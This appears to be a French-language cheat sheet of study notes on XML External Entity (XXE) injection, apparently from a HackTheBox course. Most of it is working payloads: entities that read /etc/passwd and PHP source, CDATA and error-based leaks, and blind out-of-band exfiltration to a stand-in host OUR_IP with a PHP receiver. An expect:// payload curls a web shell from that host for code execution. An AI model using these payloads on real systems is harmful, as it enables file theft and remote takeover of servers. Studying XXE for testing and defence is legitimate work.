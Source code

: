 `<`, `>`, `&`, or `"`
`&lt;`, `&gt;`, `&amp;`, `&quot;`
## XML Document Type Definition (DTD)
```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```
`PUBLIC` ou  `SYSTEM` pour un chemin externe
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```


## Identification
Si on peut définir des entités et afficher.  Alors possible de référencer entités externes
Si requête envois du XML
Une application affiche le contenu de `<email>`
`<email>untel@htb.com</email>`
Définir un DTD et le référencer
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
	<email>
		&company;
	</email>
</root>
```
Si `Inlane Freight` est affiché alors vulnérable.

## JSON
La requête peut être faite en JSON mais accepte XML. Transformer alors en XML [online tool](https://www.convertjson.com/json-to-xml.htm)

## Lecture
Certains charactères ne sont pas permis dans les fichiers `<`/`>`/`&`. utiliser divers filtres PHP
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### CDATA
Permet d'ignorer les charactères spéciaux, mais le joint ne fonctionne pas avec entités externes et internes:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Servir le fichier `xxe.dtd` de joint depuis notre serveur
```xml
<!ENTITY joined "%begin;%file;%end;">
```
### Erreurs
Générer une erreur. Pas toujours fiable: peut avoir limite de charactères ou ne pas afficher charactères spéciaux.
Servir le fichier suivant contenant une erreur
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Référencer les entités
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
### À l'aveugle
S'il n'est pas possible de voir le résultat
1. Servir le fichier `xxe.dtd` et `index.php`
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
php -S 0.0.0.0:8000
```
2.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Exécution de code
`php://expect://id` pour commandes simples qui ne brisent pas la syntax XML. Requière le module `expect`
Sinon, envoyer un remote shell. Remplacer espace par `$IFS`
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
```

## SSRF

## DOS